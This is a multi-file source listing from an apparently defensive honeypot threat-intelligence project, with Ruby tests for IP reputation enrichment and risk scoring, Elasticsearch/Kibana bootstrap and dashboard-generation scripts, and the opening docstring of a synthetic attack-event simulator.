  def path(ref) = ref.sub(/\A\[/, '').sub(/\]\z/, '').split('][')
end

class TILibTest < Minitest::Test
  def setup
    TI::CACHE.clear
    TI::FILE_CACHE.clear
    TI::BUDGET.clear
    %w[ABUSEIPDB_API_KEY OTX_API_KEY VT_API_KEY VT_PER_MINUTE VT_DAILY_LIMIT ABUSEIPDB_DAILY_LIMIT].each { |k| ENV.delete(k) }
  end

  def ev(ip, extra = {})
    FakeEvent.new({ '[source][ip]' => ip, '[event][action]' => 'cowrie.login.failed' }.merge(extra))
  end

  # ---- classification
  def test_public_ip_detection
    assert TI.public_ip?('8.8.8.8')
    assert TI.public_ip?('2606:4700:4700::1111')
    assert TI.public_ip?('::ffff:8.8.8.8')
    %w[10.1.2.3 172.20.0.5 192.168.65.1 127.0.0.1 169.254.1.1 100.64.0.9 203.0.113.7 fe80::1 ::1 not-an-ip].each do |ip|
      refute TI.public_ip?(ip), ip
    end
  end

  def test_classify_modes
    e = ev('8.8.8.8'); TI.classify(e)
    assert_equal 'live', e.get('[@metadata][ti_mode]')
    e = ev('172.20.0.1'); TI.classify(e)
    assert_equal 'skip', e.get('[@metadata][ti_mode]')
    assert_equal 'not_applicable', e.get('[ti][verdict]')
    e = ev('8.8.8.8', '[@metadata][simulated]' => 'true'); TI.classify(e)
    assert_equal 'demo', e.get('[@metadata][ti_mode]')
  end

  # ---- budget
  def test_budget_requires_key_and_limits
    e = ev('8.8.8.8'); TI.classify(e)
    TI.budget(e, 'abuse')
    assert_equal 'false', e.get('[@metadata][abuse_ok]')

    ENV['ABUSEIPDB_API_KEY'] = 'k'
    ENV['ABUSEIPDB_DAILY_LIMIT'] = '2'
    3.times.map { e2 = ev('8.8.8.8'); TI.budget(e2, 'abuse'); e2.get('[@metadata][abuse_ok]') }.tap do |r|
      assert_equal %w[true true false], r
    end
  end

  def test_vt_per_minute_limit_and_gate
    ENV['VT_API_KEY'] = 'k'
    ENV['VT_PER_MINUTE'] = '2'
    res = 3.times.map { e = ev('8.8.8.8'); TI.budget(e, 'vt'); e.get('[@metadata][vt_ok]') }
    assert_equal %w[true true false], res
    # gate: AbuseIPDB already cleared the IP (score 3 < 25) -> no VT spend
    TI::BUDGET.clear
    e = ev('8.8.8.8', '[@metadata][abuse_raw]' => { 'data' => { 'abuseConfidenceScore' => 3 } })
    TI.budget(e, 'vt')
    assert_equal 'false', e.get('[@metadata][vt_ok]')
    e = ev('8.8.8.8', '[@metadata][abuse_raw]' => { 'data' => { 'abuseConfidenceScore' => 80 } })
    TI.budget(e, 'vt')
    assert_equal 'true', e.get('[@metadata][vt_ok]')
  end

  # ---- merge / verdict
  ABUSE = { 'data' => { 'abuseConfidenceScore' => 92, 'totalReports' => 410, 'numDistinctUsers' => 55,
                        'usageType' => 'Data Center/Web Hosting/Transit', 'isp' => 'Evil Hosting', 'isTor' => false,
                        'isWhitelisted' => false, 'lastReportedAt' => '2026-11-12T10:00:00+00:00' } }.freeze
  OTX = { 'reputation' => 0,
          'pulse_info' => { 'count' => 3, 'pulses' => [
            { 'name' => 'Mirai C2 sweep', 'tags' => %w[mirai botnet], 'malware_families' => [{ 'display_name' => 'Mirai' }] },
            { 'name' => 'SSH brute', 'tags' => %w[ssh-bruteforce botnet], 'malware_families' => ['Gafgyt'] }
          ] } }.freeze
  VT = { 'data' => { 'attributes' => { 'reputation' => -12, 'as_owner' => 'Evil Hosting', 'country' => 'XX',
                                        'last_analysis_stats' => { 'malicious' => 7, 'suspicious' => 1, 'harmless' => 60, 'undetected' => 20 } } } }.freeze

  def test_merge_all_providers
    e = ev('8.8.8.8', '[@metadata][abuse_raw]' => ABUSE, '[@metadata][otx_raw]' => OTX, '[@metadata][vt_raw]' => VT)
    TI.classify(e)
    TI.merge(e)
    assert_equal 92, e.get('[ti][abuseipdb][confidence_score]')
    assert_equal %w[mirai botnet ssh-bruteforce], e.get('[ti][otx][tags]')
    assert_equal %w[Mirai Gafgyt], e.get('[ti][otx][malware_families]')
    assert_equal 7, e.get('[ti][virustotal][malicious]')
    assert_equal 'malicious', e.get('[ti][verdict]')
    assert_equal 92, e.get('[ti][score]')
    assert_equal %w[abuseipdb otx virustotal], e.get('[ti][providers]')
    # cached: second event for the same IP is answered locally
    e2 = ev('8.8.8.8'); TI.classify(e2); TI.cache_get(e2)
    assert_equal 'true', e2.get('[@metadata][ti_cache_hit]')
    assert_equal 'malicious', e2.get('[ti][verdict]')
  end

  # The http filter may hand us the response body as a raw JSON String instead of a Hash.
  def test_merge_accepts_raw_json_string_bodies
    require 'json'
    e = ev('8.8.8.8', '[@metadata][abuse_raw]' => JSON.generate(ABUSE),
                      '[@metadata][otx_raw]' => JSON.generate(OTX), '[@metadata][vt_raw]' => JSON.generate(VT))
    TI.classify(e)
    TI.merge(e)
    assert_equal 92, e.get('[ti][abuseipdb][confidence_score]')
    assert_equal 7, e.get('[ti][virustotal][malicious]')
    assert_equal %w[abuseipdb otx virustotal], e.get('[ti][providers]')
    assert_equal 'malicious', e.get('[ti][verdict]')
  end

  def test_vt_gate_reads_string_abuse_body
    ENV['VT_API_KEY'] = 'k'
    low = ev('8.8.8.8', '[@metadata][abuse_raw]' => '{"data":{"abuseConfidenceScore":3}}')
    TI.budget(low, 'vt')
    assert_equal 'false', low.get('[@metadata][vt_ok]'), 'clean IP must not spend a VirusTotal call'
    high = ev('1.1.1.1', '[@metadata][abuse_raw]' => '{"data":{"abuseConfidenceScore":80}}')
    TI.budget(high, 'vt')
    assert_equal 'true', high.get('[@metadata][vt_ok]')
  end

  def test_non_json_string_body_is_treated_as_no_data
    e = ev('8.8.8.8', '[@metadata][abuse_raw]' => '<html>502 Bad Gateway</html>')
    TI.classify(e)
    TI.merge(e)
    assert_equal 'unknown', e.get('[ti][verdict]')
  end

  def test_failed_lookup_is_negative_cached_as_unknown
    e = ev('8.8.4.4'); TI.classify(e); TI.merge(e)
    assert_equal 'unknown', e.get('[ti][verdict]')
    assert_equal [], e.get('[ti][providers]')
    assert_operator TI::CACHE['8.8.4.4'][:exp] - Time.now.to_f, :<=, 600
  end

  def test_benign_cdn_is_not_flagged
    abuse = { 'data' => { 'abuseConfidenceScore' => 90, 'usageType' => 'Content Delivery Network' } }
    e = ev('8.8.8.8', '[@metadata][abuse_raw]' => abuse); TI.merge(e)
    assert_equal 'benign', e.get('[ti][verdict]')
    e.set('[event][action]', 'cowrie.session.file_download'); TI.risk(e)
    assert_operator e.get('[event][risk_score]'), :<=, 20
  end

  def test_whitelisted_is_benign
    abuse = { 'data' => { 'abuseConfidenceScore' => 60, 'isWhitelisted' => true } }
    e = ev('8.8.8.8', '[@metadata][abuse_raw]' => abuse); TI.merge(e)
    assert_equal 'benign', e.get('[ti][verdict]')
  end

  def test_garbage_json_does_not_crash
    e = ev('8.8.8.8', '[@metadata][abuse_raw]' => { 'errors' => [{ 'detail' => 'rate limited' }] },
                      '[@metadata][otx_raw]' => 'oops', '[@metadata][vt_raw]' => { 'error' => { 'code' => 'QuotaExceededError' } })
    TI.merge(e)
    assert_equal 'unknown', e.get('[ti][verdict]')
  end

  # ---- demo
  def test_demo_is_deterministic_and_flagged
    a = ev('8.8.8.8'); TI.classify(a); TI.demo(a)
    b = ev('8.8.8.8'); TI.classify(b); TI.demo(b)
    assert_equal a.get('[ti][score]'), b.get('[ti][score]')
    assert_equal ['demo-synthetic'], a.get('[ti][providers]')
    assert_equal true, a.get('[ti][simulated]')
    scores = (1..200).map { |i| x = ev("77.1.#{i}.9"); TI.classify(x); TI.demo(x); x.get('[ti][verdict]') }.uniq
    assert_includes scores, 'malicious'
    assert_includes scores, 'clean'
  end

  # ---- file hashes
  def test_file_merge_and_cache
    sha = 'a' * 64
    raw = { 'data' => { 'attributes' => { 'type_description' => 'ELF', 'size' => 1234, 'names' => %w[bins.sh],
                                          'popular_threat_classification' => { 'suggested_threat_label' => 'trojan.mirai/gafgyt' },
                                          'last_analysis_stats' => { 'malicious' => 41, 'suspicious' => 0, 'undetected' => 25 } } } }
    e = ev('8.8.8.8', '[cowrie][shasum]' => sha, '[@metadata][vtfile_raw]' => raw)
    TI.file_merge(e)
    assert_equal 41, e.get('[ti][file][malicious]')
    assert_equal 'malicious', e.get('[ti][file][verdict]')
    e2 = ev('8.8.8.8', '[cowrie][shasum]' => sha); TI.file_cache_get(e2)
    assert_equal 'true', e2.get('[@metadata][file_cache_hit]')
    assert_equal 'trojan.mirai/gafgyt', e2.get('[ti][file][threat_label]')
  end

  def test_file_lookup_skips_bad_hash
    e = ev('8.8.8.8', '[cowrie][shasum]' => 'nothex'); TI.file_cache_get(e)
    assert_equal 'true', e.get('[@metadata][file_cache_hit]') # "hit" => no HTTP call attempted
  end

  # ---- risk formula
  def test_risk_formula_and_levels
    e = ev('8.8.8.8', '[event][action]' => 'cowrie.session.file_download', '[ti][score]' => 100, '[ti][verdict]' => 'malicious')
    TI.risk(e)
    assert_equal 94, e.get('[event][risk_score]') # 0.6*90 + 0.4*100
    assert_equal 'critical', e.get('[event][risk_level]')
    e = ev('8.8.8.8', '[event][action]' => 'cowrie.login.failed')
    TI.risk(e)
    assert_equal 15, e.get('[event][risk_score]') # 0.6*25 + 0
    assert_equal 'low', e.get('[event][risk_level]')
    e = ev('8.8.8.8', '[event][action]' => 'cowrie.login.success', '[ti][score]' => 90, '[ti][verdict]' => 'malicious')
    TI.risk(e)
    assert_equal 72, e.get('[event][risk_score]')
    assert_equal 'high', e.get('[event][risk_level]')
  end
end
------------------------------------------------------------------------------
END OF FILE: tests/test_ti_lib.rb
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: tools/Dockerfile   (10 lines)
------------------------------------------------------------------------------
FROM python:3.12-slim
ENV PYTHONDONTWRITEBYTECODE=1 \
    PYTHONUNBUFFERED=1 \
    PIP_NO_CACHE_DIR=1 \
    PIP_DISABLE_PIP_VERSION_CHECK=1
WORKDIR /app
COPY requirements.txt .
RUN pip install -r requirements.txt
COPY *.py ./
CMD ["python", "generate_report.py", "--help"]
------------------------------------------------------------------------------
END OF FILE: tools/Dockerfile
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: tools/init_stack.py   (146 lines)
------------------------------------------------------------------------------
#!/usr/bin/env python3
"""
init_stack.py - one-shot bootstrap for the Threat Intelligence Dashboard.

  python init_stack.py elasticsearch   users/roles (least privilege), ILM policy, index template
  python init_stack.py kibana          data view, saved searches, visualisations, dashboard

Idempotent: safe to run on every `start.bat`.  Secrets come only from environment variables.
"""
import json
import os
import sys
import time

import requests

ES_URL = os.environ.get("ES_URL", "http://elasticsearch:9200").rstrip("/")
KIBANA_URL = os.environ.get("KIBANA_URL", "http://kibana:5601").rstrip("/")
ELASTIC_AUTH = ("elastic", os.environ.get("ELASTIC_PASSWORD", ""))
CONFIG_DIR = os.environ.get("CONFIG_DIR", "/config")

def log(msg):
    print(f"[init] {msg}", flush=True)

def wait_for(url, auth=None, timeout=600, ok=lambda r: r.status_code == 200):
    deadline = time.time() + timeout
    last = None
    while time.time() < deadline:
        try:
            r = requests.get(url, auth=auth, timeout=10)
            if ok(r):
                return r
            last = f"HTTP {r.status_code}"
        except requests.RequestException as exc:
            last = str(exc)
        time.sleep(5)
    raise SystemExit(f"[init] timed out waiting for {url}: {last}")

def es(method, path, body=None, expect=(200, 201)):
    r = requests.request(method, f"{ES_URL}{path}", auth=ELASTIC_AUTH, json=body, timeout=60)
    if r.status_code not in expect:
        raise SystemExit(f"[init] {method} {path} -> HTTP {r.status_code}: {r.text[:500]}")
    return r.json() if r.content else {}

# --------------------------------------------------------------------------- Elasticsearch
def init_elasticsearch():
    if not ELASTIC_AUTH[1]:
        raise SystemExit("[init] ELASTIC_PASSWORD is not set")
    wait_for(f"{ES_URL}/_cluster/health", auth=ELASTIC_AUTH)

    # Built-in kibana_system user needs its password set before Kibana can start.
    es("POST", "/_security/user/kibana_system/_password", {"password": os.environ["KIBANA_SYSTEM_PASSWORD"]})
    log("kibana_system password set")

    # Least-privilege roles: each component gets only what it needs.
    roles = {
        "ti_logstash_writer": {
            "cluster": ["monitor"],
            "indices": [{"names": ["honeypot-*"], "privileges": ["create_index", "create", "index", "auto_configure"]}],
        },
        "ti_reader": {
            "cluster": ["monitor"],
            "indices": [{"names": ["honeypot-*"], "privileges": ["read", "view_index_metadata"]}],
        },
        "ti_elastalert": {
            "cluster": ["monitor"],
            "indices": [
                {"names": ["honeypot-*"], "privileges": ["read", "view_index_metadata"]},
                {"names": ["elastalert*"], "privileges": ["all"]},
            ],
        },
    }
    for name, body in roles.items():
        es("PUT", f"/_security/role/{name}", body)
    users = {
        "ti_logstash": ("LOGSTASH_WRITER_PASSWORD", ["ti_logstash_writer"]),
        "ti_reader": ("TI_READER_PASSWORD", ["ti_reader"]),
        "ti_elastalert": ("ELASTALERT_PASSWORD", ["ti_elastalert"]),
    }
    for user, (env_name, user_roles) in users.items():
        es("PUT", f"/_security/user/{user}", {"password": os.environ[env_name], "roles": user_roles})
    log("roles and service users created: ti_logstash, ti_reader, ti_elastalert")

    retention = int(os.environ.get("RETENTION_DAYS", "30"))
    es("PUT", "/_ilm/policy/honeypot-retention", {
        "policy": {"phases": {
            "hot": {"actions": {"set_priority": {"priority": 100}}},
            "delete": {"min_age": f"{retention}d", "actions": {"delete": {}}},
        }}
    })
    log(f"ILM policy honeypot-retention: delete after {retention} days")

    with open(os.path.join(CONFIG_DIR, "index-template.json"), encoding="utf-8") as fh:
        template = json.load(fh)
    es("PUT", "/_index_template/honeypot-cowrie", template)
    log("index template honeypot-cowrie installed")
    log("Elasticsearch bootstrap complete")

# --------------------------------------------------------------------------------- Kibana
def kibana(method, path, **kw):
    headers = {"kbn-xsrf": "true"}
    headers.update(kw.pop("headers", {}))
    return requests.request(method, f"{KIBANA_URL}{path}", auth=ELASTIC_AUTH, headers=headers, timeout=120, **kw)

def init_kibana():
    import kibana_objects  # local module

    wait_for(f"{KIBANA_URL}/api/status", ok=lambda r: r.status_code == 200 and "available" in r.text)

    r = kibana("POST", "/api/data_views/data_view", json={
        "data_view": {"id": kibana_objects.DATA_VIEW_ID, "title": "honeypot-cowrie-*",
                      "name": "Honeypot - Cowrie", "timeFieldName": "@timestamp"},
        "override": True,
    })
    log(f"data view: HTTP {r.status_code}")

    ndjson = kibana_objects.build_ndjson()
    r = kibana("POST", "/api/saved_objects/_import?overwrite=true",
               files={"file": ("threat-intel-dashboard.ndjson", ndjson.encode("utf-8"), "application/ndjson")})
    try:
        body = r.json()
    except ValueError:
        body = {}
    if r.status_code == 200 and body.get("success"):
        log(f"imported {body.get('successCount')} saved objects (dashboard: 'Threat Intelligence - SOC Overview')")
    else:
        # Non-fatal: the stack still works; build panels manually using the guide in HOW_TO_RUN.txt.
        log(f"WARNING: saved-object import problem (HTTP {r.status_code}): {json.dumps(body)[:800]}")
        log("The stack is running; create the panels manually (see docs: Kibana dashboard design).")
    log("Kibana bootstrap complete")

if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else ""
    if target == "elasticsearch":
        init_elasticsearch()
    elif target == "kibana":
        init_kibana()
    else:
        raise SystemExit("usage: init_stack.py elasticsearch|kibana")
------------------------------------------------------------------------------
END OF FILE: tools/init_stack.py
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: tools/kibana_objects.py   (285 lines)
------------------------------------------------------------------------------
"""
kibana_objects.py - generates the Kibana saved objects (visualisations, saved searches,
dashboard) as NDJSON for the Saved Objects import API.

All panels use Kibana's classic "aggregation based" visualisations, which are stable
across 8.x.  The Coordinate/Maps panel is NOT auto-generated (Maps saved objects are far
more version-sensitive): the dashboard contains a Markdown panel with the 60-second recipe
and docs/ explain it step by step.
"""
import json

DATA_VIEW_ID = "honeypot-cowrie"
KIBANA_VERSION = "8.15.0"
IDX_REF = {"name": "kibanaSavedObjectMeta.searchSourceJSON.index", "type": "index-pattern", "id": DATA_VIEW_ID}

def _search_source(query="", language="kuery"):
    return json.dumps({
        "query": {"query": query, "language": language},
        "filter": [],
        "indexRefName": "kibanaSavedObjectMeta.searchSourceJSON.index",
    })

def _agg(i, type_, schema, params=None, enabled=True):
    return {"id": str(i), "enabled": enabled, "type": type_, "params": params or {}, "schema": schema}

def _terms(i, field, size=10, schema="segment", order_by="1", label=None):
    p = {"field": field, "orderBy": order_by, "order": "desc", "size": size,
         "otherBucket": False, "otherBucketLabel": "Other", "missingBucket": False, "missingBucketLabel": "Missing"}
    if label:
        p["customLabel"] = label
    return _agg(i, "terms", schema, p)

def _count(i=1):
    return _agg(i, "count", "metric")

def _vis(vid, title, vis_type, aggs, params, query="", description=""):
    state = {"title": title, "type": vis_type, "aggs": aggs, "params": params}
    return {
        "id": vid, "type": "visualization",
        "attributes": {
            "title": title, "description": description,
            "visState": json.dumps(state), "uiStateJSON": "{}",
            "kibanaSavedObjectMeta": {"searchSourceJSON": _search_source(query)},
        },
        "references": [IDX_REF],
        "coreMigrationVersion": KIBANA_VERSION,
    }

def metric_vis(vid, title, aggs, query="", description=""):
    params = {"addTooltip": True, "addLegend": False, "type": "metric", "metric": {
        "percentageMode": False, "useRanges": False, "colorSchema": "Green to Red", "metricColorMode": "None",
        "colorsRange": [{"from": 0, "to": 10000}], "labels": {"show": True}, "invertColors": False,
        "style": {"bgFill": "#000", "bgColor": False, "labelColor": False, "subText": "", "fontSize": 48}}}
    return _vis(vid, title, "metric", aggs, params, query, description)

def table_vis(vid, title, aggs, query="", per_page=10):
    params = {"perPage": per_page, "showPartialRows": False, "showMetricsAtAllLevels": False,
              "showTotal": False, "totalFunc": "sum", "percentageCol": "",
              "sort": {"columnIndex": None, "direction": None}}
    return _vis(vid, title, "table", aggs, params, query)

def pie_vis(vid, title, aggs, query="", donut=True):
    params = {"type": "pie", "addTooltip": True, "addLegend": True, "legendPosition": "right",
              "isDonut": donut, "labels": {"show": True, "values": True, "last_level": True, "truncate": 100}}
    return _vis(vid, title, "pie", aggs, params, query)

def tagcloud_vis(vid, title, aggs, query=""):
    params = {"scale": "linear", "orientation": "single", "minFontSize": 16, "maxFontSize": 60,
              "showLabel": True}
    return _vis(vid, title, "tagcloud", aggs, params, query)

def bar_vis(vid, title, aggs, query="", mode="stacked", chart="histogram"):
    params = {
        "type": chart, "grid": {"categoryLines": False},
        "categoryAxes": [{"id": "CategoryAxis-1", "type": "category", "position": "bottom", "show": True,
                          "style": {}, "scale": {"type": "linear"},
                          "labels": {"show": True, "filter": True, "truncate": 100}, "title": {}}],
        "valueAxes": [{"id": "ValueAxis-1", "name": "LeftAxis-1", "type": "value", "position": "left",
                       "show": True, "style": {}, "scale": {"type": "linear", "mode": "normal"},
                       "labels": {"show": True, "rotate": 0, "filter": False, "truncate": 100},
                       "title": {"text": "Events"}}],
        "seriesParams": [{"show": True, "type": chart, "mode": mode, "data": {"label": "Events", "id": "1"},
                          "valueAxis": "ValueAxis-1", "drawLinesBetweenPoints": True, "lineWidth": 2,
                          "showCircles": True}],
        "addTooltip": True, "addLegend": True, "legendPosition": "right", "times": [],
        "addTimeMarker": False, "labels": {"show": False},
        "thresholdLine": {"show": False, "value": 10, "width": 1, "style": "full", "color": "#E7664C"},
    }
    return _vis(vid, title, chart, aggs, params, query)

def markdown_vis(vid, title, text):
    params = {"fontSize": 12, "openLinksInNewTab": False, "markdown": text}
    return {
        "id": vid, "type": "visualization",
        "attributes": {"title": title, "description": "",
                       "visState": json.dumps({"title": title, "type": "markdown", "aggs": [], "params": params}),
                       "uiStateJSON": "{}",
                       "kibanaSavedObjectMeta": {"searchSourceJSON": _search_source()}},
        "references": [], "coreMigrationVersion": KIBANA_VERSION,
    }

def saved_search(sid, title, query, columns):
    return {
        "id": sid, "type": "search",
        "attributes": {
            "title": title, "description": "", "columns": columns,
            "sort": [["@timestamp", "desc"]], "grid": {}, "hideChart": False,
            "kibanaSavedObjectMeta": {"searchSourceJSON": _search_source(query)},
        },
        "references": [IDX_REF], "coreMigrationVersion": KIBANA_VERSION,
    }

MAP_HELP = """### Attack-origin map (60 seconds, one-off)
1. Open **Maps** -> *Create map* -> **Add layer** -> **Documents**.
2. Data view: **Honeypot - Cowrie**, geospatial field: `source.geo.location`.
3. Layer style: colour by `event.risk_score` (graduated), size by `event.risk_score`.
4. Save as *Attack origins* and add it to this dashboard (*Add from library*)."""

def visualizations():
    v = []
    # ---- KPI tiles
    v.append(metric_vis("ti-vis-kpi-events", "Total events", [_count()]))
    v.append(metric_vis("ti-vis-kpi-attackers", "Unique attacker IPs", [
        _agg(1, "cardinality", "metric", {"field": "source.ip", "customLabel": "Attacker IPs"})]))
    v.append(metric_vis("ti-vis-kpi-sessions", "Attack sessions", [
        _agg(1, "cardinality", "metric", {"field": "cowrie.session", "customLabel": "Sessions"})]))
    v.append(metric_vis("ti-vis-kpi-highrisk", "High-risk events (score >= 70)", [_count()],
                        query="event.risk_score >= 70"))
    v.append(metric_vis("ti-vis-kpi-malicious", "Malicious IPs (TI verdict)", [
        _agg(1, "cardinality", "metric", {"field": "source.ip", "customLabel": "Malicious IPs"})],
        query='ti.verdict : "malicious"'))
    v.append(metric_vis("ti-vis-kpi-malware", "Malware downloads", [_count()],
                        query='event.action : "cowrie.session.file_download"'))
    # ---- Timeline / velocity
    v.append(bar_vis("ti-vis-timeline", "Attack timeline (events by risk level)", [
        _count(),
        _agg(2, "date_histogram", "segment", {"field": "@timestamp", "useNormalizedEsInterval": True,
                                              "scaleMetricValues": False, "interval": "auto", "drop_partials": False,
                                              "min_doc_count": 1, "extended_bounds": {}}),
        _terms(3, "event.risk_level", 5, schema="group")]))
    v.append(bar_vis("ti-vis-velocity", "Login attempt velocity (brute-force)", [
        _count(),
        _agg(2, "date_histogram", "segment", {"field": "@timestamp", "useNormalizedEsInterval": True,
                                              "scaleMetricValues": False, "interval": "auto", "drop_partials": False,
                                              "min_doc_count": 1, "extended_bounds": {}}),
        _terms(3, "event.outcome", 3, schema="group")],
        query='event.action : "cowrie.login.failed" or event.action : "cowrie.login.success"', chart="line",
        mode="normal"))
    # ---- Who: IPs / ASNs / countries
    v.append(table_vis("ti-vis-top-ips", "Top 10 malicious IPs (by max risk)", [
        _agg(1, "max", "metric", {"field": "event.risk_score", "customLabel": "Max risk"}),
        _agg(2, "count", "metric", {"customLabel": "Events"}),
        _agg(3, "max", "metric", {"field": "ti.abuseipdb.confidence_score", "customLabel": "AbuseIPDB score"}),
        _terms(4, "source.ip", 10, schema="bucket", order_by="1"),
        _terms(5, "source.geo.country_name", 1, schema="bucket", order_by="2", label="Country"),
    ]))
    v.append(table_vis("ti-vis-top-asns", "Top 10 attacking ASNs", [
        _count(),
        _agg(2, "cardinality", "metric", {"field": "source.ip", "customLabel": "Unique IPs"}),
        _terms(3, "source.as.organization.name", 10, schema="bucket", label="ASN organisation"),
    ]))
    v.append(pie_vis("ti-vis-countries", "Attack origin by country", [
        _count(), _terms(2, "source.geo.country_name", 10)]))
    v.append(pie_vis("ti-vis-verdicts", "Threat-intel verdicts", [
        _count(), _terms(2, "ti.verdict", 6)]))
    # ---- What: ports / protocols
    v.append(pie_vis("ti-vis-ports", "Targeted ports", [
        _count(), _terms(2, "destination.port", 8)], query='event.action : "cowrie.session.connect"'))
    v.append(pie_vis("ti-vis-protocols", "Protocols", [
        _count(), _terms(2, "network.protocol", 5)], query='event.action : "cowrie.session.connect"', donut=False))
    # ---- Credentials / commands
    v.append(table_vis("ti-vis-usernames", "Top usernames attempted", [
        _count(), _terms(2, "cowrie.username", 10, schema="bucket", label="Username")],
        query='cowrie.username : *'))
    v.append(table_vis("ti-vis-passwords", "Top passwords attempted", [
        _count(), _terms(2, "cowrie.password", 10, schema="bucket", label="Password")],
        query='cowrie.password : *'))
    v.append(table_vis("ti-vis-credentials", "Top credential pairs (user:password)", [
        _count(), _terms(2, "cowrie.credential", 10, schema="bucket", label="Credential")]))
    v.append(table_vis("ti-vis-commands", "Top commands executed in the honeypot shell", [
        _count(), _terms(2, "cowrie.input", 15, schema="bucket", label="Command")],
        query='event.action : "cowrie.command.input"', per_page=15))
    # ---- IOCs / TTPs
    v.append(table_vis("ti-vis-malware", "Malware samples (SHA-256)", [
        _count(),
        _agg(2, "max", "metric", {"field": "ti.file.malicious", "customLabel": "VT detections"}),
        _terms(3, "cowrie.shasum", 10, schema="bucket", label="SHA-256"),
        _terms(4, "ti.file.threat_label", 1, schema="bucket", order_by="1", label="Family")],
        query='cowrie.shasum : *'))
    v.append(table_vis("ti-vis-mitre", "MITRE ATT&CK techniques observed", [
        _count(), _terms(2, "threat.technique.id", 10, schema="bucket", label="Technique"),
        _terms(3, "threat.technique.name", 1, schema="bucket", order_by="1", label="Name")]))
    v.append(table_vis("ti-vis-hassh", "SSH client fingerprints (HASSH)", [
        _count(), _terms(2, "cowrie.hassh", 10, schema="bucket", label="HASSH"),
        _terms(3, "cowrie.client_version", 1, schema="bucket", order_by="1", label="Client")],
        query='cowrie.hassh : *'))
    v.append(tagcloud_vis("ti-vis-otx-tags", "OTX threat tags", [
        _count(), _terms(2, "ti.otx.tags", 30)]))
    v.append(markdown_vis("ti-vis-map-help", "Attack origin map - setup", MAP_HELP))
    return v

def saved_searches():
    cols = ["source.ip", "source.geo.country_name", "event.action", "cowrie.username", "cowrie.input",
            "ti.verdict", "event.risk_score"]
    return [
        saved_search("ti-search-highsev", "High-severity events (risk >= 70)", "event.risk_score >= 70", cols),
        saved_search("ti-search-malware", "Malware downloads / uploads",
                     'event.action : ("cowrie.session.file_download" or "cowrie.session.file_upload")',
                     ["source.ip", "cowrie.url", "cowrie.shasum", "ti.file.threat_label", "ti.file.malicious"]),
        saved_search("ti-search-success", "Successful honeypot logins from malicious IPs",
                     'event.action : "cowrie.login.success" and ti.verdict : "malicious"',
                     ["source.ip", "source.geo.country_name", "cowrie.username", "cowrie.password", "ti.score"]),
    ]

# Layout: (visualization id, x, y, w, h) on Kibana's 48-column grid
LAYOUT = [
    ("ti-vis-kpi-events", 0, 0, 8, 6), ("ti-vis-kpi-attackers", 8, 0, 8, 6), ("ti-vis-kpi-sessions", 16, 0, 8, 6),
    ("ti-vis-kpi-highrisk", 24, 0, 8, 6), ("ti-vis-kpi-malicious", 32, 0, 8, 6), ("ti-vis-kpi-malware", 40, 0, 8, 6),
    ("ti-vis-timeline", 0, 6, 28, 14), ("ti-vis-verdicts", 28, 6, 20, 14),
    ("ti-vis-map-help", 0, 20, 14, 14), ("ti-vis-countries", 14, 20, 14, 14), ("ti-vis-top-asns", 28, 20, 20, 14),
    ("ti-vis-top-ips", 0, 34, 28, 14), ("ti-vis-velocity", 28, 34, 20, 14),
    ("ti-vis-ports", 0, 48, 12, 12), ("ti-vis-protocols", 12, 48, 12, 12), ("ti-vis-mitre", 24, 48, 24, 12),
    ("ti-vis-usernames", 0, 60, 16, 14), ("ti-vis-passwords", 16, 60, 16, 14), ("ti-vis-credentials", 32, 60, 16, 14),
    ("ti-vis-commands", 0, 74, 28, 14), ("ti-vis-malware", 28, 74, 20, 14),
    ("ti-vis-hassh", 0, 88, 24, 12), ("ti-vis-otx-tags", 24, 88, 24, 12),
]

def dashboard():
    panels, refs = [], []
    for n, (vid, x, y, w, h) in enumerate(LAYOUT, start=1):
        panels.append({"version": KIBANA_VERSION, "type": "visualization",
                       "gridData": {"x": x, "y": y, "w": w, "h": h, "i": str(n)},
                       "panelIndex": str(n), "embeddableConfig": {}, "panelRefName": f"panel_{n}"})
        refs.append({"name": f"panel_{n}", "type": "visualization", "id": vid})
    return {
        "id": "ti-dashboard-soc", "type": "dashboard",
        "attributes": {
            "title": "Threat Intelligence - SOC Overview",
            "description": "Honeypot attack telemetry enriched with GeoIP, AbuseIPDB, OTX and VirusTotal.",
            "panelsJSON": json.dumps(panels),
            "optionsJSON": json.dumps({"useMargins": True, "syncColors": False, "syncCursor": True,
                                       "syncTooltips": False, "hidePanelTitles": False}),
            "timeRestore": True, "timeFrom": "now-24h", "timeTo": "now",
            "refreshInterval": {"pause": False, "value": 30000},
            "version": 1,
            "kibanaSavedObjectMeta": {"searchSourceJSON": json.dumps(
                {"query": {"query": "", "language": "kuery"}, "filter": []})},
        },
        "references": refs, "coreMigrationVersion": KIBANA_VERSION,
    }

def all_objects():
    return visualizations() + saved_searches() + [dashboard()]

def build_ndjson():
    return "\n".join(json.dumps(o, separators=(",", ":")) for o in all_objects()) + "\n"

if __name__ == "__main__":
    import sys
    out = build_ndjson()
    if len(sys.argv) > 1:
        with open(sys.argv[1], "w", encoding="utf-8", newline="\n") as fh:
            fh.write(out)
    else:
        sys.stdout.write(out)
------------------------------------------------------------------------------
END OF FILE: tools/kibana_objects.py
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: tools/requirements.txt   (4 lines)
------------------------------------------------------------------------------
elasticsearch==8.15.1
requests==2.32.3
reportlab==4.2.5
tzdata==2024.2
------------------------------------------------------------------------------
END OF FILE: tools/requirements.txt
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: tools/simulate_attacks.py   (237 lines)
------------------------------------------------------------------------------
#!/usr/bin/env python3
"""
simulate_attacks.py - writes realistic *Cowrie-format* JSON events so the whole pipeline
(Filebeat -> Logstash -> Elasticsearch -> Kibana -> reports) can be demonstrated immediately,
without waiting for real attackers.

SAFETY / HONESTY
  * Output goes to simulated.json (never cowrie.json). Logstash tags every such event
    `simulated`, never sends them to AbuseIPDB/OTX/VirusTotal, and labels any enrichment
    "demo-synthetic".
  * Source IPs are random hosts inside address space typical of each world region. They
    do NOT represent real attackers; they only exist so GeoIP/ASN lookups have something
    to resolve.  Malware URLs use RFC 5737 documentation addresses; hashes are made up.

Usage
  python simulate_attacks.py --events 3000 --hours 24            # batch over the last 24 h
  python simulate_attacks.py --live --rate 5                     # keep emitting ~5 events/sec
